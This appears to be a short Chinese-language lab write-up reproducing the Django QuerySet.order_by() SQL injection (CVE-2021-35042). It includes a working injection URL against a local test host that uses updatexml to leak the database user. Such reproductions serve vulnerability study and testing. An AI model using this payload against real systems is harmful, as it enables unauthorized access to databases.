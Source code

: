 # Django QuerySet.order_by() SQL注入漏洞（CVE-2021-35042）

> 漏洞说明

Django在2021年7月1日发布了一个安全更新，修复了在QuerySet底下的order_by函数中存在的SQL注入漏洞



> 前提条件



> 利用工具



> 漏洞复现

访问页面http://192.168.40.77:8000/vuln/?order=-id会得到根据id降序排列的结果

![image-20230101191056601](../img/Django_CVE-2021-35042/image-20230101191056601.png)

构造url访问http://192.168.40.77:8000/vuln/?order=vuln_collection.name);select%20updatexml(1,%20concat(0x7e,(select%20user())),1)%23成功利用堆叠注入获得数据库用户名信息

![image-20230101191447182](../img/Django_CVE-2021-35042/image-20230101191447182.png)